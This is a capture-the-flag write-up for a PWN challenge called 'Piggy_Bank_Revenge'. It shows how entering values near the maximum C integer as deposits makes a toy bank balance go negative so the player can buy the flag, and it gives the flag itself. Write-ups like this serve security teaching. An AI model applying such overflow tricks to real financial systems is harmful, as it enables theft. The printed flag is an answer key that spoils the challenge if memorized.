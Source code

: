 # Piggy_Bank_Revenge

539, PWN, 51 SOLVES

### Description

Seems there was an issue with the previous implementation. I've introduced a HOTFIX that should prevent any further vulnerabilities. I've achieved an unhackable piggy bank now for sure.

nc chals.whitehacks.ctf.sg 20201

This will require a bit more knowledge about programming than Piggy Bank. Give it a try and learn something new(?)

### Attached Files
revenge
revenge.c

## Solution

### Integer overflow

Since the deposit/withdraw value is stored as an integer, I started thinking about Integer overflows

We know the maximum value a C integer can hold is 2147483647

What if we tried putting in the maximum value?

Firstly I tried clearing the piggy bank value
```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 2

How much would you like to WITHDRAW?
> $1336

Piggy Bank value: $1.00
Wallet value:     $1436.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit
```

And then I experimented with the maximum integer value
```
Your choice: 1

How much would you like to DEPOSIT?
> $2147483647

Piggy Bank value: $0.00
Wallet value:     $1437.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $2147483647

Piggy Bank value: $-1.00
Wallet value:     $1438.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit
```

Ooh seems promising to have negative Piggy bank values. Let's test some more.

```
Your choice: 1

How much would you like to DEPOSIT?
> $2147483648
[-] Error: No negative values!

Piggy Bank value: $-1.00
Wallet value:     $1438.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $2147483646

Piggy Bank value: $-3.00
Wallet value:     $1440.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

With this we know that we can subtract a significant value from the piggy bank at once


### Scripting and Final Result

I coded a python script (`solve.py`) to put in the payload

```
[*] Switching to interactive mode
How much would you like to WITHDRAW?
> $
Piggy Bank value: $1.00
Wallet value:     $1436.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
How much would you like to DEPOSIT?
> $
Piggy Bank value: $-31337.00
Wallet value:     $32774.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
[*] Got EOF while reading in interactive
$           
```

# Flag
`WH2021{(Don't)Try_th1s_0n_youR_B4nk!}`